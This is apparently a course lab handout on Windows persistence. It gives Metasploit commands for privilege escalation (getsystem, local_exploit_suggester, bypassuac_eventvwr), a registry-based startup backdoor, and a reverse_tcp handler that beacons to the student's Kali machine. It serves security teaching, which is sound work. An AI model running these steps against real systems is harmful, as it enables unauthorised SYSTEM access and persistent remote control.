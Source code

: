 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Persistence

## Discussion

Threat actors persist in networks if the need to do so is one of their goals. They may persist to collect new information created by the organization. For example, if their goal is to steal intellectual property then they would persist to collect that information. It could be intellectual property such as the design of a new car, market segments that are being targeted, weapon systems, or any information that is of value. They can persist by injecting startup commands for a program in the Windows registry. The Windows registry is a large database of all settings for a Windows system. There is a Windows startup folder and any code that is added in that folder will automatically start after a system reboot, or they may inject code that executes when a specific user authenticates to the system.

The type of persistence you’re going to set up is going to have a program that beacons every 10 seconds. Beaconing means every 10 seconds, the program is going to try to connect to your Kali server. That effectively turns your Kali machine into a c2 server (or command and control). Once you set up the listener, then you’ll have another backdoor into their network.

## Lab Preparation

* Re-establish the reverse shell. Check to be sure your IP address didn’t change when you switch network adapters to NETSEC-WAN. I forgot you had to change it for the last lab. If it is different, you will need to recreate the backdoored WinSCP program.

## Start the lab

Run the commands:

**getuid**

**getsystem**

**SUBMISSION: Annotate the screenshot to show the current user and the output of “getsystem.” Based on what you see in the output, did the “getsystem” command work?**

NOTE: getsystem is a meterpreter command that attempts to exploit vulnerabilities and obtain “SYSTEM” level access. Remember that the SYSTEM context is the highest level of privileges on a Windows system.

You’ll note that the ‘getsystem’ command did not work. In that case, we’ll use another module from Metasploit that will look for a ‘local privilege escalation’ attack.

When remote vulnerabilities are not an option, threat actors will attempt to gain access to a computer and, depending on their goals, they may want elevated privileges to persist or gain access to the resources they are targeting. In that case, they will attempt to search for credentials or determine if the current user is in an administrator group. If those fail, they will then check to see what software is installed on a computer. Since many organizations don’t keep their software updated on a regular basis, it is possible to leverage a ‘local privilege escalation’ attack if there is a software program that is vulnerable. The module you are about to run will automate the process of trying to find a local privilege escalation attack.

From the meterpreter prompt run the command:

**background**

Select “y” when asked if you want to background the process. The background command will keep the remote shell session open and allow you to continue using Metasploit. The module to use is the local\_exploit\_suggester. Run the command:

**use post/multi/recon/local\_exploit\_suggester**

Then run:

**show options:**

The main one you need to set is “SESSION.”

Run the command

**sessions**

and make a note of the numeric value in the “Id” field (the leftmost value).

**e.g.**

![e.g.](https://i.imgur.com/OTVaig7.png)

Then use that numeric Id to run the next command (change X to the numeric value of the Id field)

**set SESSION X**

Then run:

**run**

If you receive a message that the process was interrupted by the user,

**e.g.**

![e.g.](https://i.imgur.com/PQbsiIl.png)

run the command **exploit** again.

You will see a long list of potential local privilege escalation vulnerabilities.

**e.g.**

![e.g.](https://i.imgur.com/GZghTCv.png)

You are welcome to play around with the various results to see which one works for you, though one that works is:

_bypassuac\_eventvwr_

So you can run:

use exploit/windows/local/bypassuac\_eventvwr

Then run:

**show options**

You’ll see the only one that needs to be set is “SESSION” so change X below to the numeric value used above for the SESSION.

**set SESSION X**

Then run:

**exploit**

It will look like the screenshot below:

**e.g.**

![e.g.](https://i.imgur.com/B6yOJGh.png)

Regardless of the exploit used, you want to check to see if a Metasploit session was opened. At the meterpret prompt, run:

**getuid**

Note you are still joker. Now run:

**getsystem**

Note how you are running with the SYSTEM context. At this point, you have unrestricted access to the computer. You can create new accounts, delete accounts, or whatever else you want to achieve.

## Creating Persistence

Next you want to create persistence. You are at the point where you can start learning to use the documentation for Metasploit. Below is a link to the Metasploit documentation for setting up persistence. Be sure you READ the entire document to understand what is going on with the attack. Set your Beacon to 10 seconds and **be sure you change the IP address from the tutorial to the the IP of your Kali workstation.**

After you run the create persistence command, then switch to your Windows 7 system and reboot it. Watch your Metasploit console too.

Metasploit Persistence:

[https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

NOTE: If you receive an error that the persistence module is deprecated, you’ll need to use the module “**exploit/windows/local/persistence”**

To do so, from your msfconsole, type the command “background”

That will take you back to the console for Metasploit. Then run:\
\
use exploit/windows/local/persistence

set SESSION X

set LPORT 443

exploit

That will create a visual basic script which will be added to the Windows registry to start the backdoor after the user reboots and logs in to their system.\
\
Then, while at your msfconsole, run the commands:\
\
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse\_tcp

set LHOST IP\_OF\_YOUR\_KALI\_HOST

set LPORT 443

exploit

Then switch to your Windows 7 workstation and reboot it. Watch your Metasploit console when your system reboots.

**SUBMISSION:**

Provide the command you used to setup persistence. If you had to use the “exploit/windows/local/persistence” then take a screenshot of the console with the command and options you set.
